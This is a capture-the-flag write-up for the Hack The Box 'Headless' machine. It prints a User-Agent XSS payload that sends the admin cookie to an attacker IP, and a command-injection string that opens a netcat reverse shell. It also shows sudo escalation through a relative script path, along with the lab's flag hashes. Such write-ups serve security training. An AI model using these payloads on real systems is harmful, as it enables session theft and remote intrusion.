 # Hack The Box - Headless (10.10.11.8)

## 🧠 Summary

**Headless** is an easy Linux machine hosted on Hack The Box. It demonstrates practical exploitation via:
- Blind XSS using the **User-Agent** header
- Admin cookie theft and dashboard access
- Command injection for reverse shell
- Privilege escalation through misconfigured sudo + script path abuse

---

## 🔍 Enumeration

### 🔹 Nmap

```bash
nmap -p- headless.htb --min-rate 5000
nmap -p 5000,22 -sC -sV headless.htb -oN nmap_alert
```

**Findings:**
- Port 5000: Werkzeug server (Python)
- Port 22: OpenSSH 9.2p1

---

## 🌐 Web Analysis

- Site displays “coming soon” message at `/`
- `/support` contact form present
- Submission with `<script>` triggers WAF-style "hacking attempt" warning

---

## 🧪 Blind XSS via User-Agent

### Step 1: Test XSS

```bash
User-Agent: <script>alert(1)</script>
```

### Step 2: Trigger data exfil

```js
<script>
var ink=new Image(); 
ink.src="http://10.10.14.12:4444/?cookie="+btoa(document.cookie);
</script>
```

### Step 3: Listener

```bash
nc -lvnp 4444
```

### Output:

```
GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=
```

Decode:

```bash
echo "aXNf..." | base64 -d
# is_admin=...
```

---

## 🔑 Cookie Theft & Dashboard Access

- Paste stolen cookie via dev tools > Storage > Cookies
- Reload `/dashboard` — now accessible

---

## 💥 Command Injection → Reverse Shell

### Payload:

```bash
date=2023-09-15;nc 10.10.14.12 1334 -e /bin/bash
```

### Listener:

```bash
nc -lvnp 1334
```

### Stabilize shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
ctrl+Z
stty raw -echo; fg; reset
```

---

## 🏁 User Flag

```bash
cat /home/dvir/user.txt
98199ec69a2d999bffd3147052096f35
```

---

## ⬆️ Privilege Escalation

### `sudo -l` Output:

```bash
(ALL) NOPASSWD: /usr/bin/syscheck
```

### Read syscheck script:

```bash
cat /usr/bin/syscheck
```

### Exploit via missing `initdb.sh`:

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh
chmod +x /tmp/initdb.sh
cd /tmp
sudo syscheck
```

### Now root!

```bash
whoami
root
cat /root/root.txt
bd2d4eb12d06b81cc888cef32e370f68
```

---

## 🧠 Lessons Learned

- XSS in headers can be powerful for stealing cookies
- `sudo -l` is crucial post-exploitation
- Poor script hygiene (like `./initdb.sh`) leads to easy root

---

*Writeup by [inksec](https://github.com/inkedqt)*
